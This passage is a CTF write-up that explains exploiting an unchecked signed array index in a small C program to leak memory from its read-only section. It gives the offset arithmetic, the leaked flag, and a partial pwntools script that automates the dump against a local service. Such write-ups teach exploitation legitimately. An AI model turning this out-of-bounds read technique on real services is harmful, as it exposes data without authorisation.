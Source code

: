     printf("\n");
    printf("Pick one: ");
    fflush(stdout);

    long x = 0;
    scanf("%ld", &x);

    printf("You picked %p\n", courses[x]);

    return 0;
}
```

The variable `courses` holds a list of string pointers. We know that strings are readonly arrays of chars. All strings are located in the `.text` segment of the program. As the flag is also a string constant in the program it is also located somewhere in this section. The program prints the addresses of `courses` which is on the stack, as well as the addresses of all course strings which are in `.text`. Afterwards the result of the `courses[x]` expression is printed as a 4 byte hex number (using the `%p` formatting on 32 bit machines). Given the adress of `courses` as e.g. `0xffa2dd0c` and `x` as `3` the expression `courses[x]` effectively loads 4 bytes from the address `courses + 4 * x` which is `0xffa2dd0c + 4 * 3`. Given the address of the String `"Maths 1"` as e.g. `0x56591032` we can calculate an `x` in order to read four bytes from the text segment: `(0x56591032 - 0xffa2dd0c) / 4 = -710046518,5`. Entering `-710046518` for x we should be able to read bytes 2-6 of the `"Maths 1"` string, which should be `ths `. The program outputs `0x20736874`, which we can convert to a string by changing the byte order (little endian read from linear array) and then interpreting each byte as a hex encoded ascii character:
- 0x74 -> 116 -> t
- 0x68 -> 104 -> h
- 0x73 -> 115 -> s
- 0x20 -> 32 -> space

As we can see with each run of the program we can dump 4 bytes from the `.text` segment of the program. Using this technique we can search for the flag and dump it.

While this could be achieved manually, the following shows a python program which performs this task automatically. Running the program results in:
```
????????????????????????????????????????????????????????nflag{c4lcul4t1ng-th3-0ffs3ts-l1k3-a-pro}.Maths 1.Maths 2.Object Oriented Programming.Computer Vision.IT-Security.Forens????Software Engineering.Theoretical Computer Science.Courses [%????.  - [%p] %s..Pick one: .%ld.You picked ????...;????????
```
This is a dump of most of the strings from the `.text` section. As we can see it includes the flag `nflag{c4lcul4t1ng-th3-0ffs3ts-l1k3-a-pro}`

**Python script:**
```
from pwn import *
from binascii import unhexlify
result = ""
for offset in range(-100, 200, 4):
    try:
        p = remote("localhost", 4000) # replace with your target
        p.readuntil("Courses [0x")
        courses = int(p.read(8), 16)
        p.readuntil("  - [0x")
        math1 = int(p.read(8), 16)
        p.readuntil("Pick one:")
        x = int((math1 - courses + offset) / 4)
        p.sendline(str(x).encode("utf8"))
        p.readuntil("You picked 0x")
        data = unhexlify(p.read(8))
        p.close()
        for c in data[::-1]:
            c = chr(c)
            if c.isprintable():